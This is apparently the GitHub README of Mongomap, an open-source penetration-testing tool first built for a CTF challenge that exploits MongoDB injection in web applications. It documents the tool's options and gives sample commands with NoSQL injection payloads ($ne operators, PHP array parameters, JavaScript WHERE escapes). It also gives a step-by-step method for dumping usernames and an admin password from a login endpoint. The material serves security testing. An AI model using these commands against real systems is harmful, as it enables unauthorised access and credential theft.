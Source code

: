 # Mongomap

Mongomap is a penetration-testing tool inspired by SQLMap, made specifically for MongoDB Injection on web applications. 

## Why make this when [nosqlmap](https://github.com/codingo/NoSQLMap) is a thing?
That other project seems to be centric on detecting the presence of noSQL injection, instead of actually exploiting the vulnerability. It also has a wide range of targets, including open DB ports. MongoMap, however, primarily aims to exploit MongoDB Injection to retrieve data from web applications.

## Why only MongoDB and why is it not very efficient on large volumes of data?
Because I initially made it for a CTF challenge. 

However, I am open to supporting more DB backends, and making my code more efficient, I'd just need some time to actually get down to doing it.

## Installation
As of now, Mongomap as 2 dependencies:
requests

colorama

You can use the package manager [pip](https://pip.pypa.io/en/stable/) to install these libraries.

```bash
pip install requests
pip install colorama
```

As an additional note, Mongomap is made with python3

## Usage

This command will display MongoMap's various arguments and syntaxes
```bash
python3 mongomap.py 
```

```
╔═╗╔═╗╔═══╗╔═╗─╔╗╔═══╗╔═══╗╔═╗╔═╗╔═══╗╔═══╗
║║╚╝║║║╔═╗║║║╚╗║║║╔═╗║║╔═╗║║║╚╝║║║╔═╗║║╔═╗║
║╔╗╔╗║║║─║║║╔╗╚╝║║║─╚╝║║─║║║╔╗╔╗║║║─║║║╚═╝║
║║║║║║║║─║║║║╚╗║║║║╔═╗║║─║║║║║║║║║╚═╝║║╔══╝
║║║║║║║╚═╝║║║─║║║║╚╩═║║╚═╝║║║║║║║║╔═╗║║║───
╚╝╚╝╚╝╚═══╝╚╝─╚═╝╚═══╝╚═══╝╚╝╚╝╚╝╚╝─╚╝╚╝───
By Hex_27
[*] Usage: mongomap -u [url] ...

    -u          Refers to the URL of the target. Includes port and get parameters if you are using get requests.
    --method    Set to either "post" or "get". By default, this will be set to "get"
    --data      If you are using post requests, use this option to specify post data
    --file      Same as --data, but you specify a file containing the parameters instead.

[*] --Flexibility--
    --cookies   Set cookies to send. Separate different cookies with &
    --headers   Specifies a header to send. Separate different headers with ;
    --maxbrute  Default value is 100. This is the maximum number of bruteforce attempts the program will try. Set to 0 for limitless.
    --maxthreads        Default value is 50. This is the maximum number of concurent threads the program will spawn.
    --csrftoken Specify the csrftoken to be checked for. You must modify code for this option to work.
    --ignorecheck       Ignore a certain check. Set these when false positives are found. Can be set to the following.

        text --- Ignore website content comparisons. Useful for combatting CSRF.
        status --- Ignore status code comparison
        url --- Ignore redirect URL comparison

    --maxthreads        Default value is 50. This is the maximum number of concurent threads the program will spawn.
    -t  Specify some technique IDs to use.

[*] --Post-Detection--
    --dump      Attempts to retrieve as much information as possible via detected injection methods. If no other post-detection options are used, dump will be used by default.

[*] --Help and Documentation--
    -h --help   Shows this help page. Use with -t to display documentation regarding the specified techniques
    -ts --techniques    Display all techniques.

[*] --Examples--
[*] mongomap -u http://challenger.com?sad=22
[*] mongomap -u http://localhost:2222?search=1 -t 324
[*] mongomap -u http://localhost:2222?search=1 -t w
[*] mongomap -u http://192.168.1.321 --method post --data "username=hi&password=letmein"
[*] mongomap -u https://target.com:1231?foo=1 --cookies "PHPSESSID=1242345234512345&ID=123"
[*] mongomap -u http://10.10.10.123 --method post --data search=1 --headers "Host: administrator1.friendzone.red; User-Agent: imlazytotypethis"
[*] mongomap -u http://152.104.10.55:20001/v1/account/login --method json --data {\"username\":\"admin\",\"password\":\"1\"}
[*] mongomap -u http://175.104.10.55:20001/v1/account/login --method json --data {\"username\":{\"$ne\":\"1\"},\"password\":\"1\"}
[*] mongomap -u http://112.104.10.55:20001/v1/account/login --method json --file params.txt
```

### Why does my regex check not work, despite it being vulnerable?

Because the tool is dumb and I can't think of a good way to implement an automatic solution for this.

If you have multiple parameters, technique 1 (Regex injection) for extracting plaintext data won't work properly automatically.

So, just give it a little help, and do things manually step by step. Let's say you have a username and a password, and you want to extract both usernames and passwords.

Step 1, get the usernames
```bash
mongomap -u http://noobsite.com/api/login --method json --data {\"username\":\"1\",\"password\":{\"$ne\":\"1\"}} -p username
```
This should force mongomap to dump out all usernames it can extract.

Step 2, find the password for each username. 
```bash
mongomap -u http://noobsite.com/api/login --method json --data {\"username\":\"admin\",\"password\":\"1\"} -p password
```
Let's say one of the dumped usernames from Step 1 is "admin". Set that as the username, then force the vulnerable parameter to be password.

Now, mongomap will attempt to dump the password of admin. 

Yay. It works. Kinda.

## What does it work against?
You can check the full description of each technique I've written to perform MongoDB Injection with this command:
```bash
python3 mongomap.py -h -t aw
```
It contains most of my documentation for those techniques. However, the basic payloads involved are:
Parsing in PHP arrays (Instead of username=a, it sends username[$ne]=a, so poorly sanitised MongoDB backends will have a different request)
Injecting WHERE requests by parsing javascript with single or double quote escapes. There's a payload for a simple where check, as well as injecting into Javascript functions.

The tool attempts to detect differences in page contents, or status code, in order to determine success in injection.
However, the difference detection mechanism is still kind of skimpy and prone to false positives, and definitely can be polished more.

Additionally, as a new feature, mongomap will now work with json data types for technique 0 and 1, the not equals injection and the regex injection.

## Contributing
Pull requests are welcome, though I may take a while to respond.
For major changes, please open an issue first to discuss what you would like to change.
This is one of my first public python projects, and there definitely is a lot I can improve on with this code. Do leave some tips for me if you find that I've missed something.

## License
[MIT](https://choosealicense.com/licenses/mit/)
